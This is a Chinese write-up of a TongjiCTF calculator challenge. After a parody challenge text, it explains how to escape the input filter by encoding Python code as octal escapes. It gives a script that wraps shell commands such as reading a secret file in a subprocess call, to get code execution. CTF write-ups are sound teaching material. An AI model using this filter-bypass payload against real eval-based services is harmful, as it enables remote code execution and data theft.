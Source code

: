 # TongjiWIZ fx-991CN X

## 题面

你说得对，但《TongjiWIZ fx-991CN X》是由 TongjiCTF 组委会自主研发的一款带 Unicode 输入功能但是却不支持 MathIO 的全新计算器（虽然能输中文但好像也没🔨用），比赛发生在一个被称作「同济大学」的幻想世界里，在这里，被神选中的人将被授予「参赛资格」，导引派森之力。你将扮演一位名为「挑战者」的神秘角色，在自由的旅行中解答性格各异、能力独特的挑战们，和你的计算器一起击败强敌，拿到失散的分数——同时，逐步发掘「无法计算，滚」的真相。

PS：源码会不做修改合并给出。

## 题解

看到反斜杠和 Unicode，只能数字和特定符号 -> 八进制 Unicode 表示
可以编写 ASCII 转八进制的脚本直接塞进去 RCE 得到 flag

```python
def ascii2octalstring(source: str) -> str:
    octal = ""
    for c in source:
            octal += "\\"
            octrep = oct(ord(c))[2:]  # octal numbers are prepended by a zero,
                                    # but since this will be a string not a
                                    # number we don't want that.
            octrep = octrep.zfill(3)  # pad with preceeding 0s
            octal += octrep
  
    return octal

if __name__ == '__main__':
    import io
    while True:
        cmd = input('cmd?\> ')
        # ls
        # cat /chall/secret.txt
        text = f'__import__("subprocess").check_output("{cmd}", shell=True)'
        print(text)
        result = ascii2octalstring(text)
        print(result)
        # a = eval(result.encode().decode('unicode_escape'))
        # print(a)
```
